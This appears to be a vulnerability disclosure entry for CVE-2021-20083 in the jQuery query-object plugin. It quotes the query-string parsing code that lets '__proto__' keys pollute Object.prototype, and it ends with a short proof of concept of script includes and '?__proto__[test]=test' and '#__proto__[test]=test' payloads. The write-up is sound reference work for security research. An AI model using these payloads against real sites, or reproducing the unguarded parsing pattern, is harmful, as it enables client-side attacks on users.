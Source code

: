 ## jQuery query-object plugin

URL: https://github.com/alrusdi/jquery-plugin-query-object

### CVE
[CVE-2021-20083](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-20083)

### Vulnerable code fragment

https://github.com/alrusdi/jquery-plugin-query-object/blob/9e5871fbb531c5e246aac2aaf056b237bc7cc0a6/jquery.query-object.js

```js
    return new queryObject(location.search, location.hash);
    ...
    queryObject.prototype = {
      queryObject: true,
      parseNew: function(){
        var self = this;
        self.keys = {};
        jQuery.each(arguments, function() {
          var q = "" + this;
          q = q.replace(/^[?#]/,''); // remove any leading ? || #
          q = q.replace(/[;&]$/,''); // remove any trailing & || ;
          if ($spaces) q = q.replace(/[+]/g,' '); // replace +'s with spaces
          
          jQuery.each(q.split(/[&;]/), function(){
            var key = decodeURIComponent(this.split('=')[0] || "");
            var val = decodeURIComponent(this.split('=')[1] || "");
            
            if (!key) return;
            
            if ($numbers) {
              if (/^[+-]?[0-9]+\.[0-9]*$/.test(val)) // simple float regex
                val = parseFloat(val);
              else if (/^[+-]?[1-9][0-9]*$/.test(val)) // simple int regex
                val = parseInt(val, 10);
            }
            
            val = (!val && val !== 0) ? true : val;
            
            self.SET(key, val);

    ...
      SET: function(key, val) {
        var value = !is(val) ? null : val;
        var parsed = parse(key), base = parsed[0], tokens = parsed[1];
        var target = this.keys[base];
        this.keys[base] = set(target, tokens.slice(0), value);
        return this;
    ...
    var parse = function(path) {
      var m, rx = /\[([^[]*)\]/g, match = /^([^[]+)(\[.*\])?$/.exec(path), base = match[1], tokens = [];
      while (m = rx.exec(match[2])) tokens.push(m[1]);
      return [base, tokens];         
```

### PoC
```html
<script src="https://code.jquery.com/jquery-3.5.1.js"></script>
<script src="https://raw.githack.com/alrusdi/jquery-plugin-query-object/9e5871fbb531c5e246aac2aaf056b237bc7cc0a6/jquery.query-object.js"></script>
```
```
?__proto__[test]=test
#__proto__[test]=test
```